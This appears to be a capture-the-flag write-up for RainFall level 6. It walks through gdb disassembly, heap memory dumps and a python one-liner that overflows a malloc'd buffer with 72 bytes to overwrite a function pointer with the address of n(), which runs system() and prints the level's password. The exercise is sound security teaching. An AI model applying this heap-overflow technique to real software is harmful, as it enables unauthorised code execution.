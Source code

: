 # Level 6

Before we run the executable in the gdb i list the function by _info func_
we found there's 2 functions n(), m() when we disass the n this function call the system.
0x08048454

```c
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

lets disass main

```c
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

this program took 1 argument and allocate the memory 2 times the first one malloc(64) and the second malloc(4)

in the line <+41> there a function 0x8048468

```c
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

in the line <+73> they call strcpy they copy edx into eax so we need to find a way to change the 0x8048468 by the function n().

we try to insrert as argument 64 characters and we print memory we found

```c
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484d0 in main ()
(gdb) x/100x 0x0804a008
0x804a008:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x00414141      0x08048468      0x00000000
0x804a058:      0x00000000      0x00020fa9      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a078:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
```

and when we try to add more A the program fill 0x08048468 with A

```c
Starting program: /home/user/level6/level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484d0 in main ()
(gdb) x/100x 0x0804a008
0x804a008:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x08048400      0x00000000
0x804a058:      0x00000000      0x00020fa9      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a078:      0x00000000      0x00000000      0x00000000      0x
```

now we can just pass the adress of the n function to change 0x08048468 by n address

```c
level6@RainFall:~$ python -c 'print("A"*72+"\x08\x04\x84\x54"[::-1])' > a
level6@RainFall:~$ cat a
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT�
level6@RainFall:~$ ./level6 `cat a`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
